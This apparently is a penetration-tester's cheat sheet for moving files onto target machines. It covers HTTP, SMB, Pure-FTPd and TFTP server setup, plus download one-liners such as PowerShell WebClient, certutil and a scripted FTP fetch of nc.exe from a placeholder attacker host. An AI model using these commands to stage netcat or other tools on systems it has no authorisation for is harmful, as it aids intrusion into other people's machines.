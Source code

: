 # File Transfers

## HTTP
```
python -m SimpleHTTPServer 80
```

-> Windows
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\Users\user\Desktop\file.exe')"
iwr -uri http://<IP>/file -Outfile file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

-> Linux
```
wget http://<IP>/file
curl http://<IP>/file > file
```

## SMB Server
-> Setting
```
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## Pure-FTPd
-> Install and Configure
```
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```
echo open 192.168.0.20 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp
-> Install and Configure
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

-> Transfer
```
tftp -i <IP> get file
```
